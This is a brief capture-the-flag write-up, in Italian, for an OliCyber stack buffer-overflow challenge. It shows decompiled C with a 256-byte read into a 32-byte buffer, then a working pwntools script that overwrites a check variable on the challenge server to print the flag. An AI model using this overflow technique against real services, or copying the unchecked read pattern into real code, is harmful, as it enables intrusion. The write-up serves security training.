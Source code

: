 # Enterprise encryption

```c
  local_20 = 0;
  puts("Hello, what\'s your name?");
  sVar1 = read(0,local_48,256);
  local_48[(int)sVar1 + -1] = '\0';
  printf("Hello %s, ",local_48);
  if (local_20 == 0x5ab1bb0) {
    param1 = getenv("FLAG");
    printf("the flag is %s\n",param1);
  }
  else {
    puts("no flag for you >:(\n");
  }
```

devi cambiare il valore della variabile local_20 facendo buffer overflow, `char local_48 [32]` siccome c'è un buffer di 32 byte e in read c'è un buffer di 256, quindi con questo, cerco di calcolare quante A servono per fare buffer overflow provando

```py
from pwn import *

p = remote('lil-overflow.challs.olicyber.it', 34002)

payload = b''
payload += b'A'*40
#payload += p32(95099824)
payload += p64(0x5ab1bb0)


p.sendline(payload)
p.stream()
```

flag{}